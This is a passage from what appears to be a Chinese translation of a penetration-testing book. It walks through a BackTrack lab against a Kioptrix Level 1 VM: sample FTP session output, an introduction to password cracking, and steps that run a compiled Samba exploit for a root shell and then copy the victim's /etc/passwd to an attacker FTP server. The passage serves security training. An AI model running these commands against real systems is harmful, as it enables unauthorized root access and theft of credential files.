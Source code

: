输出应该类似于以下内容：

```
Connected to 192.168.75.12.
220---------- Welcome to Pure-FTPd [privsep] [TLS] ----------
220-You are user number 1 of 50 allowed.
220-Local time is now 17:02\. Server port: 21.
220-IPv6 connections are also welcome on this server.
220 You will be disconnected after 15 minutes of inactivity.
Name (192.168.75.12:root): ftplogin
331 User ftplogin OK. Password required
Password:
230-User ftplogin has group access to: 7777
230 OK. Current directory is /
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>

```

### 注意

**生产环境与受控测试实验室环境之间的区别：**考虑在您的生产 BackTrack 实例上设置一个专用用户帐户和适当的安全措施。确保为 FTP 帐户提供必要的写入文件权限，否则，当从受害机器进行这些尝试时，预计会收到错误。

# 密码：您知道的东西…

在当今这个时代，人们可能会认为所有系统都使用多因素身份验证。不幸的是，情况并非如此。即使所谓的“安全网络”仍在使用发送明文密码的协议，系统仍在使用不安全的加密协议等。每个渗透测试人员都应该尝试掌握的一项基本技能（就像下棋一样：学起来容易，精通起来难）是密码破解的艺术。我们将从一些简单的例子开始，以巩固这个概念，然后转向该领域最优秀人员使用的一些策略。

## 破解哈希

繁忙的用户甚至管理员经常重复使用密码。无论网络上的系统有多重要，一旦您获得了密码哈希值，它们应立即被破解并添加到您已经放置的任何字典文件中。这可能会节省大量时间。

首先，我们需要从受害者机器中提取一些文件。启动您的 BackTrack Tester 1 和 Kioptrix Level 1 虚拟机，运行您之前编译的漏洞利用程序，并将`passwd`文件下载下来，以便我们可以对其运行 Jack。

1.  在实验室中启动所有必要的虚拟设备（BackTrack Tester 1，Kioptrix）。

1.  运行`./SambaVuln_10 -b 0 192.168.75.14`。

1.  您现在已连接为`kioptrix.level1`上的 root 用户。

1.  在您的 BackTrack 虚拟机上打开一个新的终端会话，并启动`pure-ftpd`。

1.  在连接到 Kioptrix 机器的 shell 中，使用 FTP 连接到 BackTrack 机器上的 FTP 服务器：

```
cd /etc

```

+   转到/ etc 目录。请记住，您将无法从受害者机器上获得太多反馈。

```
ls

```
